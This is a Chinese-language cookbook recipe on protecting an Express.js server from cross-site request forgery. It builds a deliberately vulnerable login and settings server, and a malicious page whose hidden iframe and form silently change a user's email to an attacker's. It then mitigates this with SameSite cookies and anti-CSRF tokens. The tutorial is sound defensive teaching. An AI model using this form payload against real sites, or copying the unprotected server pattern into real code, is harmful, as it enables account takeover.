+   本章中的 *防止跨站请求伪造*

# 防止跨站请求伪造

CSRF 是一种攻击，恶意网络应用程序导致用户的网络浏览器在用户已登录的另一个受信任的网络应用程序上执行操作。

在这个菜谱中，我们将学习如何保护 Express.js 服务器免受 CSRF 攻击。

重要提示

近年来，浏览器安全得到了显著提高。在任何一个现代浏览器上复制 CSRF 攻击变得非常困难。然而，由于仍然有许多用户在使用旧版浏览器，了解这些攻击的工作原理以及如何保护自己是非常重要的。在这个配方中，我们将在同一域上复制 CSRF 攻击。请参考 *开发者：为新的 SameSite=None; Secure Cookie 设置做好准备*（[`blog.chromium.org/2019/10/developers-get-ready-for-new.html`](https://blog.chromium.org/2019/10/developers-get-ready-for-new.html)）Chromium 博客，该博客涵盖了 Google Chrome 为防止 CSRF 攻击所做的更新。

## 准备工作

按照以下步骤操作：

1.  首先为这个配方创建一个名为 **express-csrf** 的目录，并使用 **npm** 初始化项目：

    ```js
    $ mkdir express-csrf
    $ cd express-csrf
    $ npm init --yes
    $ npm install express express-session body-parser
    ```

1.  创建一个名为 **server.js** 的文件。这将包含我们的服务器，该服务器容易受到 CSRF 攻击：

    ```js
    $ touch server.js
    ```

1.  在 **server.js** 中，导入所需的模块并注册 **express-session** 中间件：

    ```js
    const express = require('express');
    const bodyParser = require('body-parser');
    const session = require('express-session');
    const app = express();
    const mockUser = {
      username: 'beth',
      password: 'badpassword',
      email: 'beth@example.com'
    };
    app.use(
      session({
        secret: 'Node Cookbook',
        name: 'SESSIONID',
        resave: false,
        saveUninitialized: false
      })
    );
    app.use(bodyParser.urlencoded({ extended: false }));
    ```

1.  接下来，在 **server.js** 中，我们需要为我们的服务器定义路由：

    ```js
    app.get('/', (req, res) => {
      if (req.session.user) return
        res.redirect('/account');
      res.send(`
        <h1>Social Media Account - Login</h1>
        <form method="POST" action="/">
          <label> Username <input name=username> </label>
          <label> Password <input name=password
            type=password> </label>
          <input type=submit>
        </form>
      `);
    });
    app.post('/', (req, res) => {
      if (
        req.body.username === mockUser.username &&
        req.body.password === mockUser.password
      ) {
        req.session.user = req.body.username;
      }
      if (req.session.user) res.redirect('/account');
      else res.redirect('/');
    });
    app.get('/account', (req, res) => {
      if (!req.session.user) return res.redirect('/');
        res.send(`
          <h1>Social Media Account - Settings</h1>
          <p> Email: ${mockUser.email} </p>
          <form method="POST" action=/update>
            <input name=email value="${mockUser.email}">
            <input type=submit value=Update >
          </form>
        `);
    });
    app.post('/update', (req, res) => {
      if (!req.session.user) return res.sendStatus(403);
      mockUser.email = req.body.email;
      res.redirect('/');
    });
    ```

1.  然后，将以下内容添加到 **server.js** 中以启动服务器：

    ```js
    app.listen(3000, () => {
      console.log('Server listening on port 3000');
    });
    ```

现在，我们已经准备好开始这个配方。

## 如何操作…

首先，我们将创建一个可以复制 CSRF 攻击的恶意网页。之后，我们将学习如何保护我们的 Express.js 服务器免受这些攻击。

你的步骤应该格式如下：

1.  启动服务器：

    ```js
    $ node server.js
    Server listening on port 3000
    ```

1.  在你的浏览器中导航到 **http://localhost:3000** 并预期会看到以下 HTML 登录表单。将 **beth** 作为用户名，将 **badpassword** 作为密码输入。然后，点击 **提交**：


图 9.9 – 社交媒体账户 – 登录

1.  登录后，你应该会被带到演示社交媒体资料的 **设置** 页面。注意，这里有一个字段可以更新你的电子邮件。尝试将电子邮件更新为其他内容。你应该会看到在点击 **更新** 后更新被反映出来：


图 9.10 – 社交媒体账户 – 设置

1.  现在，我们将创建我们的恶意网页。创建一个名为 **csrf-server.js** 的文件。这是我们构建恶意网页的地方：

    ```js
    $ touch csrf-server.js
    ```

1.  添加以下代码以创建恶意网页：

    ```js
    const http = require('node:http');
    const attackerEmail = 'attacker@example.com';
    const server = http.createServer((req, res) => {
      res.writeHead(200, { 'Content-Type': 'text/html' });
      res.end(`
    <iframe name=hide style="position:absolute;left:-
      1000px"></iframe>
    <form method="post"
      action="http://localhost:3000/update" target=hide>
    <input type=hidden name=email
      value="${attackerEmail}">
    <input type=submit value="Click this to win!">
    </form>`);
    });
    server.listen(3001, () => {
      console.log('Server listening on port 3001');
    });
    ```

1.  在第二个终端窗口中，启动 **csrf-server.js** 服务器：

    ```js
    $ node csrf-server.js
    Server listening on port 3001
    ```

重要提示

在真实的 CSRF 攻击中，我们预计攻击会来自与易受攻击的服务器不同的域。然而，由于网络浏览器安全性的进步，许多 CSRF 攻击被浏览器阻止。对于这个配方，我们将演示在同一域上的攻击。请注意，CSRF 攻击至今仍然可能发生，尤其是许多用户可能在使用没有最新安全特性来保护 CSRF 攻击的旧版浏览器。

1.  在你的浏览器中导航到 **http://localhost:3001**。预期会看到以下输出显示一个单按钮：


图 9.11 – 显示可疑“点击这个来赢！”按钮的恶意 CSRF 网页

1.  点击**点击这个来赢！**按钮。通过点击按钮，发送了一个包含**attacker@example.com**电子邮件的 HTTP **POST**请求到**http://localhost:3000/update**。通过点击这个按钮，HTTP **POST**请求已经发送到真实网站的服务器，利用浏览器中存储的 cookie。

1.  返回社交媒体个人资料页面并刷新它。我们会看到攻击者已经成功更新了电子邮件地址：


图 9.12 – 显示电子邮件已更新为 attacker@example.com 的社交媒体账户 – 设置页面

1.  现在，让我们修复服务器，使其不受 CSRF 攻击的影响。首先，将**server.js**文件复制到名为**fixed-server.js**的文件中：

    ```js
    $ cp server.js fixed-server.js
    ```

1.  为了修复服务器，我们需要向**express-session**中间件添加一些额外的配置。将**express-session**配置更改为以下内容：

    ```js
    app.use(
      session({
        secret: 'Node Cookbook',
        name: 'SESSIONID',
        resave: false,
        saveUninitialized: false,
        cookie: { sameSite: true }
      })
    );
    ```

    注意添加了**{ cookie : { sameSite : true }}**配置。

1.  现在，停止原始服务器后，启动**fixed-server.js**：

    ```js
    $ node fixed-server.js
    Server listening on port 3000
    ```

1.  返回**http://localhost:3000**并使用之前的凭据重新登录。然后在第二个浏览器标签页中，访问**http://127.0.0.1:3001**（**csrf-server.js**应该仍在运行）并再次点击按钮。注意，你必须使用**http://127.0.0.1:3001**而不是**http://localhost:3001**进行导航；否则，请求将被视为来自同一域名。

    你会发现这次，点击按钮不会在**社交媒体账户 - 设置**页面更新电子邮件。如果我们打开**Chrome DevTools** | **Console**，我们甚至能看到一个**403 (禁止)**错误，确认我们的更改阻止了攻击：


图 9.13 – Chrome DevTools 窗口显示我们的 CSRF 请求上的 403（禁止）

这个示例展示了简单的 CSRF 攻击及其相关风险。我们通过使用**express-session**中间件提供额外的配置来减轻了漏洞。

## 它是如何工作的...

在这个示例中，我们展示了简单的 CSRF 攻击。攻击者构建了一个恶意网站，利用社交媒体网站上的 cookie 来更新用户的电子邮件地址。这是一个危险的漏洞，因为一旦攻击者将电子邮件更新为自己的，他们最终可能会控制账户。

为了减轻这种漏洞，我们向**express-session**中间件传递了**{ cookie : { sameSite : true }}**配置。cookie 头部的**SameSite**属性可以设置为以下三个值：

+   **none**：cookie 可以在所有上下文中共享和发送，包括跨源请求

+   **lax**：这允许 cookie 与由第三方网站发起的 HTTP **GET** 请求共享，但仅当它导致顶级导航时

+   **strict**：cookie 只能通过第一方上下文中的请求发送 – 如果 cookie 与当前站点 URL 匹配

在 **express-session** 中间件配置中将 **{ sameSite : true }** 配置选项设置为等同于将 **Set-Cookie : SameSite** 属性设置为 **strict** 模式。

在本食谱中检查请求头将显示类似于以下内容的 **Set-Cookie** 头部：

```js
Set-Cookie:
SESSIONID=s%3AglL_...gIvei%2BEs; Path=/; HttpOnly; SameSite=Strict
```

## 还有更多...

一些旧版浏览器不支持 **Set-Cookie SameSite** 头部属性。处理这些情况的一种策略是生成反 CSRF 令牌。这些反 CSRF 令牌存储在用户会话中，这意味着攻击者需要访问会话本身才能执行攻击。

我们可以使用名为 **csurf** 的模块来帮助实现反 CSRF 令牌：

1.  仍然在 **express-csrf** 目录中，将 **fixed-server.js** 复制到名为 **csurf-server.js** 的新文件中：

    ```js
    $ cp fixed-server.js csurf-server.js
    ```

1.  安装 **csurf** 模块：

    ```js
    $ npm install csurf
    ```

1.  接下来，我们需要在 **csruf-server.js** 文件中导入和初始化 **csurf** 模块。在 **express-session** 导入下方添加以下行：

    ```js
    const csurf = require('csurf');
    const csrf = csurf();
    ```

1.  然后，我们需要修改 HTTP **GET** 请求处理器，使其使用 **csrf** 中间件。我们可以通过将其作为 **/account** 路由处理器 **get()** 方法的第二个参数来做到这一点：

    ```js
    app.get('/account', csrf, (req, res) => {
      if (!req.session.user) return res.redirect('/');
      res.send(`
          <h1>Social Media Account - Settings</h1>
          <p> Email: ${mockUser.email} </p>
          <form method="POST" action=/update>
            <input type=hidden name=_csrf
              value="${req.csrfToken()}">
            <input name=email value="${mockUser.email}">
            <input type=submit value=Update >
          </form>
        `);
    });
    ```

    在 HTML 模板中，我们使用请求对象的 **req.csrfToken()** 方法生成和注入 **csrfToken**。我们将令牌注入到名为 **_csrf** 的隐藏字段中。**csrf** 中间件会寻找具有该名称的令牌。

1.  我们还需要更新 **/update** 路由处理器的 **post()** 方法，以便它可以使用 **csrf** 中间件：

    ```js
    app.post('/update', csrf, (req, res) => {
      if (!req.session.user) return res.sendStatus(403);
      mockUser.email = req.body.email;
      res.redirect('/');
    });
    ```

    在 HTTP **POST** 请求期间，**csrf** 中间件将检查请求体中存储在 **_csrf** 字段中的令牌。然后，中间件将提供的令牌与用户会话中存储的令牌进行验证。

1.  启动服务器：

    ```js
    $ node csurf-server.js
    Server listening on port 3000
    ```

1.  导航到 **http://localhost:3000** 并使用与我们在本食谱中使用的相同用户名和密码登录。在 **社交媒体账户 - 设置** 页面上点击 **查看页面源代码**。你应该会看到以下 HTML 显示隐藏的 **_csrf** 字段：

    ```js
    <html>
    <head></head>
    <body>
    <h1>Social Media Account - Settings</h1>
          <p> Email: beth@example.com </p>
          <form method="POST" action="/update">
            <input type="hidden" name="_csrf"
              value="r3AByUA1-csl3hIjrE3J4fB6nRoBT8GCr9YE">
            <input name="email" value="beth@example.com">
            <input type="submit" value="Update">
          </form>
        </body>
    </html>
    ```

    你应该能够像以前一样更新电子邮件。

**csurf** 中间件有助于减轻旧版浏览器中 CSRF 攻击的风险，这些浏览器不支持 **Set-Cookie:SameSite** 属性。然而，即使使用 **csurf** 中间件，我们的服务器仍然可能容易受到更复杂的 CSRF 攻击。攻击者可以使用 XSS 获取 CSRF 令牌，然后使用 **_csrf** 令牌构建 CSRF 攻击。但是，在没有支持 **Set-Cookie:SameSite** 属性的情况下，这是一种尽力而为的缓解措施。

通过使攻击者必须创建更复杂的攻击来减缓他们的速度是一种有效的降低风险的方法。许多攻击者会尝试同时利用多个网站——如果他们遇到一个需要显著更长的时间来利用的网站，出于时间的考虑，他们通常会转到另一个网站。

## 参见

+   本章中的*使用 Fastify 进行身份验证*配方

+   本章中的*使用 Helmet 强化头部信息*配方

+   本章中的*预测恶意输入*配方

+   本章中的*预防 JSON 污染*配方

+   本章中的*防范跨站脚本攻击*配方

+   *第十二章*中的*使用 Chrome DevTools 诊断问题*配方
